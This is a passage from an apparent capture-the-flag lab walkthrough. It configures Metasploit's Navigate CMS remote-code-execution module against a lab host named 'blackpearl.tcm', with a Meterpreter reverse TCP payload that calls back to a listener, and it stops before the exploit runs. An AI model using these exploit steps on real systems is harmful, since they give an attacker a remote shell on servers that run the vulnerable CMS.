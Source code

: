 ```
msfconsole
search navigate
use 3

```

```
msf6 > use 3
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/navigate_cms_rce) > options

Module options (exploit/multi/http/navigate_cms_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /navigate/       yes       Base Navigate CMS directory path
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.64.4     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


```

Set the parameters `RHOSTS` and `vhost then run`

```
msf6 exploit(multi/http/navigate_cms_rce) > set RHOSTS 192.168.64.8
RHOSTS => 192.168.64.8

msf6 exploit(multi/http/navigate_cms_rce) > set vhost blackpearl.tcm

msf6 exploit(multi/http/navigate_cms_rce) > options

Module options (exploit/multi/http/navigate_cms_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.64.8     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /navigate/       yes       Base Navigate CMS directory path
   VHOST      blackpearl.tcm   no        HTTP server virtual host

```